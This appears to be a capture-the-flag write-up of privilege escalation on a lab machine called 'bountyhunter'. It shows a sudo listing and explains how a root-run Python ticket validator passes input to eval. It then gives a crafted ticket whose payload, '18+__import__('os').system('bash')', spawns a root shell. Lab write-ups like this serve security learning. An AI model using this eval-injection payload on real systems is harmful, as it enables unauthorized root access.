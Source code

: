 ```


Last login: Mon Nov 13 16:44:20 2023 from 10.10.14.21
development@bountyhunter:~$ id
uid=1000(development) gid=1000(development) groups=1000(development)
development@bountyhunter:~$ hostname
bountyhunter
development@bountyhunter:~$ 
```

The development account is able to run the ticketValidator script as root.

```
development@bountyhunter:/opt/skytrain_inc$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py 
development@bountyhunter:/opt/skytrain_inc$ 

```

The Tester investigated the code and found user input gets passed into the "eval" function. This function evaluates python statments therefore can be used to execute commands. The first 32 lines of code deals with the layout of the ticket, ensuring the ticket is in the right format. This can be bypassed by copying the first 3 lines of the invalid ticket from the "invalid_tickets" folder. These lines are:

```
# Skytrain Inc
## Ticket to Bridgeport
__Ticket Code:__
```

The 33th line of code is what needs to be looked at, it requires the remainder of the sum of the ticket code to be 4. The Tester used the payload:

```
**18+__import__('os').system('bash')**
```

The asterisk sysmbols are removed by the script. Next is the 18. This, after using the modulo operator against 7 will have a remainder of 4, which will clear the scripts check on line 33 of the script. The rest of the payload simply imports the "os" module and calls the function system to execute the bash command. This will spawn a root shell in the middle of the script running process.


```The ticket that will spawn a bash shell.
# Skytrain Inc
## Ticket to Bridgeport
__Ticket Code:__
**18+__import__('os').system('bash')**
##Issued: 2021/06/21
#End Ticket
```
